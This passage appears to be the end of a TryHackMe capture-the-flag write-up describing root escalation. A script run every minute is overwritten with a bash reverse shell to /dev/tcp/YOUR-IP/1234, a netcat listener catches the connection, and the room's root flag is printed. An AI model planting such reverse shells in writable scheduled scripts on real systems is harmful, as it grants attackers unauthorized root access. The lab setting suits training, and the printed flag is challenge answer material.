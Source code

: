 ```
#!/bin/bash
echo "Done!"
```
## Nothing much and as usual no permission 

## As i Notice something odd that the startup_list.txt file is being updated every minute so I used watch to see
```
 watch ls -la startup_list.txt
```
## The script is running ever minute

## Let add something to print.sh file to reverify.

	
<div align="center">
  <img src="https://github.com/user-attachments/assets/dbd58442-3741-40cf-9494-89354c9b694e"></img>
</div>

## My file is created

<div align="center">
  <img src="https://github.com/user-attachments/assets/d600b530-978b-4b4f-ac74-43e7f81b3835"></img>
</div>

## Let add a reverse shell so we get root
```
nano /etc/print.sh
```
```
bash -i >& /dev/tcp/YOUR-IP/1234 0>&1
```
## Open netcat in our system
```
nc -lnvp 1234
```
### Wait for connection 

<div align="center">
  <img src="https://github.com/user-attachments/assets/fa454e44-bdeb-45f3-8238-ca56c2ab4054"></img>
</div>

## ROOT flag
```
cat /root/root.txt
```
```
THM{f963aaa6a430f210222158ae15c3d76d}
```
🙂
